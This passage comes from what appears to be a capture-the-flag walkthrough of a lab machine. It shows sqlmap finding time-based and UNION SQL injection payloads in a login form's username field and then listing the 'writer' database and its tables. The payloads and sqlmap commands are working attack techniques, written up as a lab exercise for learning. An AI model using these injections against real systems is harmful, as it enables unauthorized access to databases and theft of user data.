 ```
    Payload: uname=admin' AND (SELECT 7088 FROM (SELECT(SLEEP(5)))exRW) AND 'ensx'='ensx&password=password

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: uname=admin' UNION ALL SELECT NULL,CONCAT(0x71717a7871,0x425661596272756b4b514b6256615342427047497762494465795943666c5051615368477176556d,0x716b627a71),NULL,NULL,NULL,NULL-- -&password=password
---
...[snip]...

```

The first line after the `...[snip]...` above shows it asking about the redirect. By default, `sqlmap` will follow the redirect, and therefore it will miss the union injection because the results don’t show up in the redirected page. If I accept the default there (or run with `--batch`) it will only find the time-based injection, which is *really* slow.

#### Database Enumeration

Now `sqlmap` can show what’s in the DB. First list the databases (making sure not to follow the redirect):

```

oxdf@parrot$ sqlmap -r login.req --dbs
...[snip]...
got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
available databases [2]:
[*] information_schema
[*] writer
...[snip]...

```

List the tables in `writer` (not shown, but telling it not to follow the redirect every time from now on):

```

oxdf@parrot$ sqlmap -r login.req -D writer --tables
...[snip]...
Database: writer
[3 tables]
+---------+
| site    |
| stories |
| users   |
+---------+
...[snip]...

```
